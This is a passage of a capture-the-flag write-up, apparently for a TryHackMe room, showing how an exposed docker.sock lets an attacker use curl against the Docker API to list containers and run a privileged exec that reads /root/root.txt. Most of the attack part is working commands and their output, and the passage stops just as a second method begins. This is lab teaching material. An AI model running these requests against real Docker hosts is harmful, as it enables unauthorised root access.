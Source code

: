 3. Following this blog: https://dejandayoff.com/the-danger-of-exposing-docker.sock/ will walk us through using the curl command to read the first root.txt flag.

4. Using curl we can list all images by issuing this command: `  curl -i -s -X GET http://<docker_host>:PORT/containers/json  `
- Which gives us this result:

 ```bash
 ["Id":"3aca3900a312d70b576f0a86856612f8312ad03df5ae14dacb54439b52eafd31","Names":["/sweettoothinc"],"Image":"sweettoothinc:latest","ImageID":"sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e","Command":"/bin/bash -c 'chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk6Ry98d8C -c '/initializeandquery.sh & /entrypoint.sh influxd''","Created":1627359591,"Ports":[{"IP":"0.0.0.0","PrivatePort":22,"PublicPort":2222,"Type":"tcp"},{"IP":"0.0.0.0","PrivatePort":8086,"PublicPort":8086,"Type":"tcp"}],"Labels":{},"State":"running","Status":"Up About an hour","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"d941570cec4dfc6c39532d4d875bcbdee64a3831e147c75b6167c481bcaf7d67","EndpointID":"bb07c60829d249c61aae7da7dba8fbe3a7738af7a7297d53a26f02787a8240ef","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[{"Type":"volume","Name":"80ed8feaaed22a73f8debc5905c2af290e39c5e8cd997047bdab5b0b61c67493","Source":"","Destination":"/var/lib/influxdb","Driver":"local","Mode":"","RW":true,"Propagation":""},{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"}]}]
 
 ```

5. Next we run another curl command to the docker.sock dameon using exec which executes our command to cat open the first root.txt, you need the id from the command above:

```bash

curl -i -s -X POST \
 -H "Content-Type: application/json" \
 --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/root/root.txt"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
http://localhost:8080/containers/3aca3900a312d70b576f0a86856612f8312ad03df5ae14dacb54439b52eafd31/exec

```

6. Now we need to start the container we just ran above which will give us the first root flag:

```bash

curl -i -s -X POST \
 -H 'Content-Type: application/json' \
--data-binary '{"Detach": false,"Tty": false}' \ http://localhost:8080/exec/bfa14df9e363d42620d44d3234314c8997569be6555097ca59a4930e11053719/start

```

- After running this command we get the first root.txt flag: THM{REDACTED}

##### SSH forwarding over the docker.sock

Method 2 skips and simplifies the entire process of 
